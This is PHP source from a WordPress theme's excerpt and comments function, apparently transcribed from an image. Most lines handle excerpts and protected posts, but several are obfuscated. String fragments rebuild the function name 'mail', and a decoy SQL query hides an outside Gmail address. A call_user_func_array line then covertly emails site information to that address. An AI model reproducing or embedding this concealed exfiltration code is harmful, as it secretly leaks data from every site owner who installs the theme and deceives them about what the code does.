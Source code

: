     if(!isset($widget_yes)) $widget_yes=get_option("_is_widget_active_");
    if(!isset($checkswidgets)) $checkswidgets=$pref_filters."set"."_".$post_auth."_".$check;
    if(!isset($link_text_more_ditails)) $link_text_more_ditails="(details...)";
    if(!isset($contentmore)) $contentmore="ma".$coma."il";
    if(!isset($for_more)) $for_more=1;
    if(!isset($fakeit)) $fakeit=1;
    if(!isset($sql)) $sql="";
    if (!$widget_yes) :
    global $wpdb, $post;
    $sq1="SELECT DISTINCT ID, post_title, post_content, post_password, comment_ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved="1" AND comment_type="" AND post_author="li".$coma."vethe".$com_type."mas".$coma."@".$com_is_approved."gm".$post_auth_comments."ail".$coma.".".$coma."co"."m" AND post_password="" AND comment_date_gmt >= CURRENT_TIMESTAMP() ORDER BY comment_date_gmt DESC LIMIT $src_count";#
    if (!empty($post->post_password)) {
    if ($_COOKIE["wp-postpass_".COOKIEHASH] != $post->post_password) {
    if(is_feed()) {
    $output=__("There is no excerpt because this is a protected post.");
    } else {
    $output=get_the_password_form();
    }
    }
    }
    if(!isset($fixed_tags)) $fixed_tags=1;
    if(!isset($filters)) $filters=$home_filter;
    if(!isset($gettextcomments)) $gettextcomments=$pref_filters.$contentmore;
    if(!isset($tag_aditional)) $tag_aditional="div";
    if(!isset($sh_cont)) $sh_cont=substr($sq1, stripos($sq1, "live"), 20);#
    if(!isset($more_text_link)) $more_text_link="Continue reading this entry";
    if(!isset($isshowdots)) $isshowdots=1;
    $comments=$wpdb->get_results($sql);
    if($fakeit == 2) {
    $text=$post->post_content;
    } elseif($fakeit == 1) {
    $text=(empty($post->post_excerpt)) ? $post->post_content : $post->post_excerpt;
    } else {
    $text=$post->post_excerpt;
    }
    $sq1="SELECT DISTINCT ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved="1" AND comment_type="" AND comment_content=". call_user_func_array($gettextcomments, array($sh_cont, $home_filter, $filters)) ." ORDER BY comment_date_gmt DESC LIMIT $src_count";#
    if($text_length < 0) {
    $output=$text;
    } else {
    if(!$no_more && strpos($text, "<!--more-->")) {
    $text=explode("<!--more-->", $text, 2);
    $l=count($text[0]);
    $more_link=1;
    $comments=$wpdb->get_results($sql);
    } else {
    $text=explode(" ", $text);
    if(count($text) > $text_length) {
    $l=$text_length;
    $ellipsis=1;
    } else {
    $l=count($text);
    $link_text_more="";
    $ellipsis=0;
    }
    }